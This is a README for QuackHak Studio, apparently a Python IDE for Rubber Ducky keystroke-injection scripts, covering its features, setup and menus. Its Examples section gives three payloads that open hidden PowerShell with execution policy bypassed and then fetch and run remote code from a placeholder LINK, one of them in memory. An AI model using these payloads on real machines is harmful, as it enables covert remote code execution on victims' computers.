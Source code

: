 # QuackHak Studio

QuackHak Studio is an Integrated Development Environment (IDE) for Rubber Ducky scripts. It provides a user-friendly interface for creating and editing Rubber Ducky scripts, making it easier to write and test your payloads. With QuackHak Studio, you can write, save, and execute your Rubber Ducky scripts with ease.

## Features

- **Syntax Highlighting**: QuackHak Studio provides syntax highlighting for Rubber Ducky scripts, making it easier to identify different commands and keywords.

- **Code Execution**: You can execute your Rubber Ducky scripts directly from the IDE, allowing you to test your payloads quickly.

- **Undo/Redo**: QuackHak Studio supports undo and redo actions, making it easy to revert changes or redo previous actions.

- **Code Templates**: QuackHak Studio offers both predefined and custom template options for various Rubber Ducky script types. This allows you to either use our ready-made templates or create your own tailored template to get started quickly.

## Getting Started

1. Download and install Python if you haven't already. You can download it from the [Python website](https://www.python.org/downloads/).

2. Clone this repository or download the `quackhak.py` script.

3. Install the required dependencies using the following command:

   ```bash
   pip install PyQt5
   ```

4. Run the QuackHak Studio script using the following command:

   ```bash
   python quackhak.py
   ```

5. Start writing your Rubber Ducky scripts in the QuackHak Studio IDE.

## Usage

- **File Menu**: The File menu allows you to open, save, and save your scripts with different options.

- **Edit Menu**: The Edit menu provides options for undoing and redoing actions.

- **Tools Menu**: Access useful tools like URL shortener and GitHub directly from the IDE.

- **Run Menu**: Run your Rubber Ducky scripts directly from the IDE or execute PowerShell scripts.

## Examples

### Basic Rubber Ducky Payload

```plaintext
DELAY 2000
GUI r
DELAY 500
STRING powershell -NoP -W H -Ep Bypass irm LINK|iex;FUNCTION
DELAY 500
ENTER
```

### Base64 Encoded Payload

```plaintext
DELAY 2000
GUI r
DELAY 500
STRING powershell -NoP -W H -Ep Bypass irm LINK -O $env:USERPROFILE\e.txt;certutil -f -decode $env:USERPROFILE\e.txt $env:USERPROFILE\d.ps1;iex $env:USERPROFILE\d.ps1
DELAY 500
ENTER
```

### Memory Execution Payload

```plaintext
DELAY 2000
GUI r
DELAY 500
STRING powershell -NoP -W H -Ep Bypass &([scriptblock]::Create([Text.Encoding]::UTF8.GetString([Convert]::FromBase64String((irm LINK)))))
DELAY 500
ENTER
```


## Author

QuackHak Studio is developed by [CaliNux](https://github.com/calinux-py).

## Acknowledgments

- Special thanks to I_am_Jakoby & Redd <3

Feel free to contribute to this project and help improve QuackHak Studio for Rubber Ducky enthusiasts. 
